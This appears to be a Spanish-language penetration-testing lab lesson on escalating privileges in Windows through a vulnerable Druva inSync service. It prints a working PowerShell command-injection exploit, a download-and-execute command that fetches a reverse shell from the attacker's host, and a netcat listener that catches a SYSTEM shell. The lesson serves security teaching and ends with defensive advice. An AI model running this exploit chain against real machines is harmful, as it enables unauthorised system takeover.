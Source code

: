 # Servicios vulnerables

---

Es posible que podamos aumentar los privilegios de los sistemas bien parchados y bien configurados si los usuarios pueden instalar software o aplicaciones/servicios de terceros vulnerables se utilizan en toda la organización. Es común encontrar una multitud de diferentes aplicaciones y servicios en las estaciones de trabajo de Windows durante nuestras evaluaciones. Veamos una instancia de un servicio vulnerable que podríamos encontrar en un entorno del mundo real. Algunos servicios/aplicaciones pueden permitirnos escalar al sistema. Por el contrario, otros podrían causar una condición de denegación de servicio o permitir el acceso a datos confidenciales, como archivos de configuración que contienen contraseñas.

---

#### Enumerando programas instalados

Como se cubrió anteriormente, comencemos en enumerar aplicaciones instaladas para obtener un laico de la tierra.

  Servicios vulnerables

```cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

La salida se ve en su mayoría estándar para una estación de trabajo de Windows 10. Sin embargo, el`Druva inSync`Se destaca la aplicación. Una búsqueda rápida de Google muestra esa versión`6.6.3`es vulnerable a un ataque de inyección de comando a través de un servicio RPC expuesto. Es posible que podamos usar[este](https://www.exploit-db.com/exploits/49211)Explotar a POC para escalar nuestros privilegios. De esto[blog](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/)Qué detalla el descubrimiento inicial de la falla, podemos ver que Druva Insync es una aplicación utilizada para "copia de seguridad integrada, eDiscovery y Monitoreo de cumplimiento", y la aplicación del cliente ejecuta un servicio en el contexto del poderoso`NT AUTHORITY\SYSTEM`cuenta. La escalada es posible interactuando con un servicio que se ejecuta localmente en el puerto 6064.

#### Enumerando puertos locales

Hagamos una enumeración adicional para confirmar que el servicio se está ejecutando como se esperaba. Un vistazo rápido con`netstat`muestra un servicio que se ejecuta localmente en el puerto`6064`.

  Servicios vulnerables

```cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

#### ID de proceso enumerador

A continuación, mapeemos la identificación del proceso (PID)`3324`Volver al proceso de ejecución.

  Servicios vulnerables

```powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

#### Enumerando el servicio de ejecución

En este punto, tenemos suficiente información para determinar que la aplicación Druva Insync está instalada y ejecutada, pero podemos hacer una última verificación utilizando el`Get-Service`cmdlet.

  Servicios vulnerables

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

---

## Druva Insync Windows Client de privilegio local Ejemplo de escalada

#### Druva Insync PowerShell POC

Con esta información en la mano, probemos el POC de exploit, que es este fragmento de breve potencia.

Código:powershell

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### Modificación de PowerShell POC

Para nuestros propósitos, queremos modificar el`$cmd`variable a nuestro comando deseado. Podemos hacer muchas cosas aquí, como agregar un usuario administrador local (que es un poco ruidoso, y queremos evitar modificar las cosas en los sistemas de clientes siempre que sea posible) o enviarnos un shell inverso. Probemos esto con[Invoke-Powershelltcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Descargue el script a nuestro cuadro de ataque y cambie el nombre de algo simple como`shell.ps1`. Abra el archivo y agregue lo siguiente en la parte inferior del archivo de script (cambiando la IP para que coincida con nuestra dirección y el puerto de escucha también):

  Servicios vulnerables

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modificar el`$cmd`Variable en el script POC de explotación Druva Insync para descargar nuestro shell inverso de PowerShell en la memoria.

Código:powershell

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

#### Iniciar un servidor web de Python

A continuación, inicie un servidor web de Python en el mismo directorio donde nuestro`shell.ps1`Script reside.

  Servicios vulnerables

```shell-session
xnoxos@htb[/htb]$ python3 -m http.server 8080
```

#### Atrapar un caparazón del sistema

Finalmente, comienza un`Netcat`oyente en el cuadro de ataque y ejecute el script POC PowerShell en el host de destino (después[Modificar la política de ejecución de PowerShell](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy)con un comando como`Set-ExecutionPolicy Bypass -Scope Process`). Recuperaremos una conexión de carcasa inversa con`SYSTEM`privilegios si todo va según lo planeado.

  Servicios vulnerables

```shell-session
xnoxos@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.


PS C:\WINDOWS\system32>whoami

nt authority\system


PS C:\WINDOWS\system32> hostname

WINLPE-WS01
```

---

## Avanzar

Este ejemplo muestra cuán arriesgado puede ser permitir a los usuarios instalar software en sus máquinas y cómo siempre debemos enumerar el software instalado si aterrizamos en un servidor de Windows o host de escritorio. Las organizaciones deben restringir los derechos del administrador local en máquinas de usuario final siguiendo el principio de menor privilegio. Además, una herramienta de lista blanca de aplicaciones puede ayudar a garantizar que solo el software examinado correctamente se instale en las estaciones de trabajo del usuario.